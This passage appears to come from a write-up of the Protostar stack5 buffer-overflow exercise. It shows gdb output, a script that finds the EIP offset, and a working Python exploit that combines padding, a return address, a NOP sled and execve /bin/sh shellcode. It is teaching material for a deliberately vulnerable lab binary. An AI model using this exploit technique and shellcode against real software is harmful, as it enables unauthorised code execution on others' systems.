 After the **ret** instruction executes, the address `0xb7eadc76`, which was previously stored on the stack was popped into **eip**. Now, I create a script to find the offset that lets me take control of the instruction pointer.

``` python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"

print padding
```

The output of this script will be redirected into a file, which can be used as the input for `gdb`. Let's run the program again!

``` shell
(gdb) r < /tmp/exp   <---------- Input
Starting program: /opt/protostar/bin/stack5 < /tmp/exp
0x80483da <main+22>:    ret
0xbffff7ac:     0x54545454      0x55555555      0x56565656      0x57575757
0xbffff7bc:     0x58585858      0x59595959      0x5a5a5a5a      0xb7ffef00

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x5353535b
) at stack5/stack5.c:11
11      in stack5/stack5.c
```

The address `0xb7eadc76` has been overwritten with `0x54545454`, where **0x54** corresponds character 'T'. So, our padding starts from 'A' to 'S'. 

We know that **0x54545454** is the address that we can overwrite to redirect our program. But where should our program jump to? Probably the ***"STACK"***, and I chose `0xbffff7b0` as the jump target.

To make sure my shellcode is working, I will add some **NOPs** before the shellcode and **\xcc (int3)** for debugging. Here is the [shellcode](https://shell-storm.org/shellcode/files/shellcode-575.html) I'm using:

``` shell
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

Here’s the updated script:

``` python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
eip = struct.pack("I", 0xbffff7b0 + 0x30)
nopslide = "\x90"*100
int3 = "\xCC"*4
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

print padding + eip + nopslide + int3 + shellcode
```

And it works successfully in `gdb`!

``` shell
user@protostar:~$ gdb /opt/protostar/bin/stack5
.....
(gdb) r < /tmp/exp
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 < /tmp/exp
0x80483da <main+22>:    ret
0xbffff7ac:     0xbffff7e0      0x90909090      0x90909090      0x90909090
0xbffff7bc:     0x90909090      0x90909090      0x90909090      0x90909090

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x5353535b
) at stack5/stack5.c:11
```